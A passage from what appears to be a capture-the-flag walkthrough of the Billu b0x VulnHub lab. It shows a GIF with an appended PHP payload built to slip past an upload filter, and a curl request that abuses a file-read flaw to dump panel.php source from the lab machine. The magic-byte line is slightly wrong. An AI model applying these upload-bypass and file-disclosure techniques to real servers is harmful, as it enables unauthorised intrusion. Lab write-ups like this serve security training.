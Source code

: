 ![9-9.png](/assets/images/posts/billu-b0x-vulnhub-walkthrough/9-9.png)

It shows only the file types that are allowed. From here we can do uploads e.g. a gif
We'll generate a gif and append a payload to a gif (this should provides us with a proof of concept)

    echo 'FFD8FFEo' | xxd -r -p > my_img.gif
    echo '<?php phpinfo(); ?>' >> my_img.gif

![9-10.png](/assets/images/posts/billu-b0x-vulnhub-walkthrough/9-10.png)

Using `/test.php` for the LFI fails. Remember it only reads contents of a file.
Here's the code for `panel.php`.
```
root@marksmith:~# curl -d "file=panel.php" http://192.168.109.146/test  
<?php
session_start();

include('c.php');
include('head2.php');
if(@$_SESSION['logged']!=true )
{
header('Location: index.php', true, 302);
exit();

}

echo "Welcome to billu b0x ";
echo '<form method=post style="margin: 10px 0px 10px 95%;"><input type=submit name=lg value=Logout></form>';
if(isset($_POST['lg']))
{
unset($_SESSION['logged']);
unset($_SESSION['admin']);
header('Location: index.php', true, 302);
}
echo '<hr><br>';

echo '<form method=post>
```

[1]: https://www.vulnhub.com/entry/zico2-1,210/
[2]: https://twitter.com/@indishell1046
[3]: https://www.vulnhub.com/
[4]: https://github.com/21y4d/nmapAutomator